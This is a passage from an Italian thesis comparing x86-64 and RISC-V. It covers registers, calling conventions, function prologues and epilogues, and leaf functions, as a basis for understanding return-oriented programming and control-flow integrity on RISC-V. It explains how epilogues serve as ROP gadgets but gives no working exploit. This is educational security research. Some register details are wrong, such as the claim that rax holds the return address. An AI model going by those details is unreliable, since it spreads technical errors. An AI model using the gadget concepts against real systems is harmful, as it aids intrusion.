    
\includegraphics[width=1\linewidth]{images/cva6-scheme.png}
    \caption{CVA6 Pipeline Diagram} 
\end{figure}
\FloatBarrier
\vspace{1cm}
\subsection*{Cheshire}
\addcontentsline{toc}{subsection}{Cheshire}
Cheshire \cite{ottaviano2023cheshire} è una piattaforma minimale basata su sistema Linux in grado di supportare il boot di processi basati su core RISC-V CVA6.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/arch.png}
    \caption{Cheshire architecture} 
\end{figure}
\FloatBarrier
\vspace{1cm}
Durante la fase di testing è stato utilizzato Cheshire per caricare dei programmi contententi vulnerabilità ad hoc e analizzarli tramite meccanismi di Control Flow Integrity, usando il simulatore e facendo dei test direttamente su FPGA.
\newpage
\chapter*{Capitolo 3}
\addcontentsline{toc}{chapter}{Capitolo 3}

\section*{Differenza tra architetture}
\addcontentsline{toc}{section}{Differenza tra architetture}
Per capire come gli attacchi alla memoria funzionino su diverse architetture dobbiamo prima analizzare la parte fondamentale che è alla base della produzione di linguaggio macchina.\\
Nelle sezioni seguenti vedremo la differenza tra le due architetture nei registri, nello stack e nella semantica di esecuzione.
\subsection*{Architettura X86-64}
\addcontentsline{toc}{subsection}{Architettura X86-64}
Di seguito è presente una tabella per facilitare la lettura dei registri. Verranno presentati sotto la versione 64 bit, anche se è possibile trovarne a 32 o 16 bit ma con la stessa semantica.
\vspace{1cm}
\begin{center}
\begin{tabular}{| c | c c|} 
 \hline
 \textbf{Register} & \textbf{Purpose} & \textbf{Saved across calls} \\ [0.5ex] 
 \hline\hline
 \%rax & temp register; return value & No \\ 
 \hline
 \%rbx & callee-saved  & Yes \\ 
 \hline
 \%rcx & used to pass 4th argument to functions & No \\ 
 \hline
 \%rdx & used to pass 3rd argument to functions & No \\ 
 \hline
 \%rsp & stack pointer & Yes \\ 
 \hline
 \%rbp & callee-saved; base pointer & Yes \\ 
 \hline
 \%rsi & used to pass 2nd argument to functions & No \\ 
 \hline
 \%rdi & used to pass 1st argument to functions & No \\ 
 \hline
 \%r10-r11 & temporary & No \\ 
 \hline
 \%r12-r15 & callee-saved register & Yes \\ 
 \hline
\end{tabular} 
\end{center}
\vspace{1cm}
In questa architettura, come in RISC-V, i registri possono essere mantenuti in memoria o ripristinati ad ogni function call. Se ad esempio un programma ritorna da una funzione, alcuni registri come i registri temporanei oppure i registri argomento, vengono ripristinati a fine della funzione, evitando così che possano essere trovati ``sporchi" all'utilizzo successivo che ne verrà fatto.\\
Immaginiamo infatti che venga fatta una system call usando \textit{exit()}, che prende come argomento il valore contenuto nel registro \textit{rdi}. In questo caso, se il registro non venisse ripristinato e il programmatore non passasse alcun valore alla system call, il programma eseguirebbe quello che era stato precedentemente salvato nel nel registro \textit{rdi}, che quindi cambierebbe valore in base a come è stato eseguito il programma. Avremmo quindi un comportamento inatteso dovuto al fatto che il compilatore non si impegna a ripristinare i registri una volta che vengono utilizzati.\\
Un altro esempio di registro ripristinato è \textit{rax} che dovendo fornire l'indirizzo di ritorno della funzione deve per forza essere sovrascritto ad ogni esecuzione.
I registri \textit{calle-saved} sono invece salvati dal chiamante (chi chiama la funzione) e sono registri tipicamente \textit{general purpose} che vengono utilizzati in casi specifici.\\
\newline
Di particolare interesse sono quindi i registri \textit{rax} che mantiene l'indirizzo di ritorno, \textit{rsp} che mantiene lo stack pointer, ovvero un puntatore che indica la posizione nello stack dell'istruzione eseguita in un qualunque momento a runtime e \textit{rbp} che è il base pointer dello stack, indica dove inizia e viene utilizzato per salvare \textit{rsp} durante le chiamate a funzione e ripristinato con un semplice ``\textit{mov rsp, rbp}".\\
\newline
Il compilato seguente fa vedere come in x86\_64 venga gestita una semplice chiamata a funzione. In questo caso viene salvato lo stack pointer dentro il base pointer, poi caricata la stringa ``Hello World" nel registro argomento \textit{rdi} per poi chiamare tramite \textit{call} la funzione \textit{printf()} definita nella GOT. Continuando poi viene settato 0 come valore di ritorno e viene fatta la \textit{pop} del registro \textit{rbp} per ripristinare il vecchio frame pointer. Nella istruzione \textit{ret} viene fatta la pop dell'indirizzo di ritorno dallo stack e si salta a questo indirizzo, ripristinando il controllo del flusso del programma al chiamante.\\
In questa esecuzione si ha già una grande differenza con RISC-V. In questo caso infatti l'istruzione call fa il push dell'indirizzo di ritorno sullo stack e trasferisce il controllo alla funzione che viene chiamata. Su RISC-V si adotta un approccio totalmente diverso, specificando nella funzione chiamante il salvataggio dell'indirizzo di ritorno. Inoltre in RISC-V non viene utilizzato lo stack per salvare l'indirizzo di ritorno, ma l'apposito registro ra. Questo complica la vita di un attaccante, come si vedrà in seguito.
\begin{minted}[escapeinside=||,mathescape=true]{c}
0x0000000000001149 <+0>:     endbr64
0x000000000000114d <+4>:     push   %rbp
0x000000000000114e <+5>:     mov    %rsp,%rbp
0x0000000000001151 <+8>:     lea    0xeac(%rip),%rax        |# 0x2004|
0x0000000000001158 <+15>:    mov    %rax,%rdi
0x000000000000115b <+18>:    mov    $0x0,%eax
0x0000000000001160 <+23>:    call   0x1050 |<printf@plt>|
0x0000000000001165 <+28>:    mov    $0x0,%eax
0x000000000000116a <+33>:    pop    %rbp
0x000000000000116b <+34>:    ret   
\end{minted}
\subsection*{Architettura RISC-V}
Di seguito è presente una tabella per mostrare la struttura dei registri implementati dell'ISA RISC-V, tutti a 32 bit.
\addcontentsline{toc}{subsection}{Architettura RISC-V}
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/riscv-registers.png}
\end{figure}
\FloatBarrier
\vspace{1cm}
Analogamente a quanto visto per l'altra architettura, anche in questa sono presenti alcuni registri che sono conservati tra chiamata di funzione e altri invece che vengono ripristinati.\\
Tra i registri essenziali sottolineiamo \textit{ra} che contiene il return address, come il registro \textit{rax}, \textit{sp} che sarà lo stack pointer, analogamente a \textit{rsp} e \textit{a0-a7} saranno registri dedicati agli argomenti delle funzioni. Anche in questa ISA i registri argomento, lo stack pointer e l'indirizzo di ritorno vengono ripristinati, mente altri registri chiamati ``registri s" o ``saved registers" vengono gestiti dal chiamante. s0 è invece il frame pointer.\\
\newline
Tipicamente in RISC-V tutti i registri tranne \textit{x0} (collegato al valore 0) sono general purpose e possono essere utilizzati per fare molteplici operazioni, sta al programmatore, in caso di scrittura del programma in codice macchina, oppure al compilatore di utilizzarli secondo le calling conventions \cite{RISCV}.\\
\newline
Nel seguente compilato, analizziamo le istruzioni utilizzate e la differenza con architettura tradizionale.\\
Per prima cosa si può notare che inizialmente viene decrementato lo stack pointer di 16 byte per far spazio alle istruzioni successive, poi viene salvato l'indirizzo di ritorno 8 byte sopra lo stack pointer per essere ripristinato in seguito. 
S0 (il frame pointer) viene poi salvato sullo stack e viene caricata la stringa ``Hello World" sul registro argomento a0. Viene poi fatta una \textit{jal} (jump and link) all'indirizzo della \textit{printf()}, salvando nel registro ra l'indirizzo di ritorno della funzione. Su a0 si salverà il valore di ritorno della funzione, in questo caso 0 e si ripristineranno i vecchi registri, compreso il frame pointer. All'istruzione \textit{ret} si ritornerà dalla funzione all'indirizzo contenuto dentro il registro \textit{ra}.  
\begin{minted}[escapeinside=||,mathescape=true]{c}
0x0000000000000668 <+0>:     addi    sp,sp,-16
0x000000000000066a <+2>:     sd      ra,8(sp)
0x000000000000066c <+4>:     sd      s0,0(sp)
0x000000000000066e <+6>:     addi    s0,sp,16
0x0000000000000670 <+8>:     auipc   a0,0x0
0x0000000000000674 <+12>:    addi    a0,a0,32 |# 0x690|
0x0000000000000678 <+16>:    jal     ra,0x5a0 |<printf@plt>|
0x000000000000067c <+20>:    li      a5,0
0x000000000000067e <+22>:    mv      a0,a5
0x0000000000000680 <+24>:    ld      ra,8(sp)
0x0000000000000682 <+26>:    ld      s0,0(sp)
0x0000000000000684 <+28>:    addi    sp,sp,16
0x0000000000000686 <+30>:    ret
\end{minted}
\section*{Prologo ed Epilogo delle funzioni}
\addcontentsline{toc}{section}{Prologo ed Epilogo delle funzioni}
Nello stack, per gestire le funzioni, il compilatore pone dei pezzi di codici per gestire lo stato dei registri, caricare valori e ripristinarli. Queste sezioni vengono chiamate prologo (all'inizio) ed epilogo (alla fine) di ogni funzione.\\
Nelle due architetture prologhi ed epiloghi differiscono perché lo stack (e i registri) vengono gestiti in modo diverso. È fondamentale capire la differenza per gestire poi gli attacchi, che dovranno sempre fare riferimento a queste sezioni per poter funzionare. Prologhi ed epiloghi possono venire usati attivamente come gadget per ``costruire" funzioni arbitrarie. Il seguente prologo su architettura x86 fa il push del base pointer sullo stack, salva il base pointer e sottrae N allo stack pointer per fare spazio ad eventuali variabili / buffer nello stack.
\begin{minted}[escapeinside=||,mathescape=true]{c}
push       ebp
mov	ebp, esp
sub	esp N 
\end{minted}
L'epilogo in queta architettura ripristina lo stack pointer, facendo l'operazione opposta a quanto era stato fatto precedentemente nell'epilogo, toglie ebp dallo stack e fa la return. Ci possono essere più modi per fare prologo ed epilogo, che dipendono principalmente dal flavour dell'architettura e dal tipo di compilatore ed ottimizzazione che il programmatore sta usando.
\begin{minted}[escapeinside=||,mathescape=true]{c}
mov	esp, ebp
pop	ebp
ret
\end{minted}
Su una architettura x86, in una ottica di ROP, ci aspettiamo quindi di trovare un grande numero di gadget contenenti le istruzioni \textit{mov ebp, esp} e \textit{mov ebp, esp}, anche se è sempre più facile costruire un epilogo durante una chain di gadget perché le istruzioni di epilogo sono più vicine all'istruzione ret e quindi utilizzabili senza compromettere la stabilità del programma.\\
\newline
In RISC-V prologo ed epilogo si svologno in modalità diverse, questo per vari motivi legati all'architettura. Dalle calling convention di RISC-V \cite{Arrvindh} si sottolinea che.
\begin{itemize}
    \item Il registro SP deve avere lo stesso valore sia all'entrata che all'uscita della funzione, a meno che il valore dell'indirizzo di ritorno venga salvato sullo stack
    \item Tutti i registri s devono avere lo stesso valore sia all'entrata che all'uscita della funzione
    \item La funzione deve ritornare al valore contenuto in ra, in condizioni di normale esecuzione.
\end{itemize}
Durante l'epilogo avviene la ``save sequence" in cui si salva l'indirizzo di ritorno sullo stack e si decrementa \textit{sp} in base a quanto spazio deve essere conservato nello stack per salvare i dati futuri. In questo caso si decrementa di 16 byte perché l'unico dato da salvare (di 8 byte) è \textit{ra}.
\begin{minted}[escapeinside=||,mathescape=true]{c}
addi sp ,sp , -16
sd ra ,8(sp)
\end{minted}
Avviene poi la ``restore sequence" in cui si carica (load) in ra l'indirizzo di ritorno precedentemente salvato, e si ripristina lo stack pointer per far continuare il flusso del programma. È importante sottolineare che i registri argomento, che in RISC-V sono di più rispetto a x86\_64, quando sono utilizzati devono essere tutti ripristinati a 0. Nelle calling conventions si specifica che in caso si utilizzino i registri t (temporanei) devono essere usati solamente prima delle chiamate a funzione.
\begin{minted}[escapeinside=||,mathescape=true]{c}
mv a0 , zero
mv a1 , zero
ld ra ,8(sp)
addi sp ,sp ,16
ret
\end{minted}
\section*{Leaf Functions}
\addcontentsline{toc}{section}{Leaf Functions}
Le \textit{Leaf Function} o ``callee", sono funzioni che nella programmazione tradizionale vengono chiamate da un ``caller" (chiamante). La funzione \textit{main()} è una funzione ``caller" perché fa partire tutte le altre funzioni, ma è anche una ``callee" perche di fatto viene chiamata dalla libc tramite la direttiva ``\_\_libc\_start\_main" che fa partire il programma. In generale le funzioni chiamate eseguono un task e restituiscono il risultato alla funzione chiamante, terminando con un certo codice di uscita.\\
\newline
In RISC-V è importante analizzare questo tipo di funzioni perché non è possibile utilizzare una leaf function per eseguire una ROP, ma è possibile utilizzare solo epiloghi di funzioni non leaf.\\
Questo è causato dal fatto che le funzioni leaf terminano con una return (per restituire il risultato al chiamante) invece che con una \textit{jump and link} che utilizza il registro \textit{ra} per salvare l'indirizzo di ritorno. L'attaccante che vuole sovrascrivere \textit{ra} dovrà per forza passare da una funzione non leaf per avere un entrypoint d'attacco o un gadget che permette di andare avanti nella chain di gadget.\\
In figura \ref{ref:leaf-non-leaf} si può vedere come differiscono le funzioni leaf da quelle non leaf. Una funzione non leaf (ad esempio il \textit{main()}) è una funzione che chiama altre funzioni, e quindi a livello di disassemblato non termina con una \textit{ret}. Le funzioni leaf invece sono funzioni (di solito molto semplici) che non utilizzano altre funzioni ed eseguono semplicemente l'operazione richiesta.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.6\linewidth]{images/leaf-functions.png}
    \caption{Leaf e Non-Leaf functions}
    \label{ref:leaf-non-leaf}
\end{figure}
\FloatBarrier
\vspace{1cm}
Questa è una prima grande limitazione nel panorama di ROP su RISC-V, dato che il numero possibile di gadget che riguardano gli epiloghi di funzione è ristretto ora solo a questo tipo di funzioni chiamanti. A parità di istruzioni, mentre su x86\_64 è possibile utilizzare solo lo stack per gestire l'indirizzo di ritorno, nel caso di RISC-V il registro ra è limitante e deve essere opportunatamente manipolato nelle non leaf function per avere un attacco efficace. In architetture x86\_64 il problema di leaf functions non si pone perché l'indirizzo di ritorno è sempre gestito sullo stack e una istruzione che sia \textit{jmp} o \textit{ret} farà sempre riferimento a quello.\\
